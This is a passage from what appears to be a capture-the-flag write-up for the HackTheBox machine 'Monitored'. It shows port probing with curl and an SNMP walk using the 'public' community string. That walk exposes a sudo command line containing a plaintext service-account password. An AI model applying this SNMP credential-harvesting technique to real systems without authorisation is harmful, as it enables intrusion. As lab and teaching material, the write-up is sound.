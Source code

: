 ```
# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1

```

### Unknown - TCP 5667

I’ll try to connect to the unknown port using `curl`:

```

oxdf@hacky$ curl monitored.htb:5667
curl: (56) Recv failure: Connection reset by peer

```

It fails. `nc` doesn’t work either. It just hangs, and when I type anything, it exits.

### SNMP - UDP 161

A quick check using the “public” community string seems to work, so I’ll dump the full set of data into a file:

```

oxdf@hacky$ snmpwalk -v 2c -c public monitored.htb | tee snmp_data
SNMPv2-MIB::sysDescr.0 = STRING: Linux monitored 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64
SNMPv2-MIB::sysObjectID.0 = OID: NET-SNMP-MIB::netSnmpAgentOIDs.10
DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (345329) 0:57:33.29
SNMPv2-MIB::sysContact.0 = STRING: Me <root@monitored.htb>
SNMPv2-MIB::sysName.0 = STRING: monitored
SNMPv2-MIB::sysLocation.0 = STRING: Sitting on the Dock of the Bay
SNMPv2-MIB::sysServices.0 = INTEGER: 72
SNMPv2-MIB::sysORLastChange.0 = Timeticks: (1579) 0:00:15.79
...[snip]...

```

There’s a ton of potentially interesting data in SNMP. One thing to always check out is the running processes and their command lines. Process 1312 in my collection (will be different in others) is a `sudo` process:

```

oxdf@hacky$ grep "\.1312 = " snmp_data 
HOST-RESOURCES-MIB::hrSWRunIndex.1312 = INTEGER: 1312
HOST-RESOURCES-MIB::hrSWRunName.1312 = STRING: "sudo"
HOST-RESOURCES-MIB::hrSWRunID.1312 = OID: SNMPv2-SMI::zeroDotZero
HOST-RESOURCES-MIB::hrSWRunPath.1312 = STRING: "sudo"
HOST-RESOURCES-MIB::hrSWRunParameters.1312 = STRING: "-u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"
HOST-RESOURCES-MIB::hrSWRunType.1312 = INTEGER: application(4)
HOST-RESOURCES-MIB::hrSWRunStatus.1312 = INTEGER: runnable(2)
HOST-RESOURCES-MIB::hrSWRunPerfCPU.1312 = INTEGER: 0
HOST-RESOURCES-MIB::hrSWRunPerfMem.1312 = INTEGER: 5132 KBytes

```
